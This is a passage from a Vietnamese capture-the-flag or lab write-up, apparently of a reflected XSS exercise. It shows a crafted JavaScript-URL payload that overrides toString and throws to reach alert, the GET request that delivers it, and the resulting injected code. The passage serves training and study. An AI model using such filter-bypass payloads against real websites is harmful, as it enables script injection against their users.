 ![Untitled](writeup_media/Untitled%2075.png)

Craft payload

```
'},x=x=>{onerror=alert;throw 3},toString=x,this+'',{x:'
```

Gửi request GET đến `/post?postId=5&'},x=x=>{onerror=alert;throw 3},toString=x,this+'',{x:'`

```jsx
fetch('/analytics', {method:'post',body:'/post?postId=5&'},x=x=>{onerror=alert;throw 3},toString=x,this+'',{x:''}).finally(_ => window.location = '/')
```

Hàm `toString` sẽ bị override thành `x`. `this+''` sẽ tự động gọi hàm `toString` để ghép với string `''` → gọi được hàm `alert`

Khi bấm Back to Blog, `alert` sẽ được thực hiện

![Untitled](writeup_media/Untitled%2076.png)

---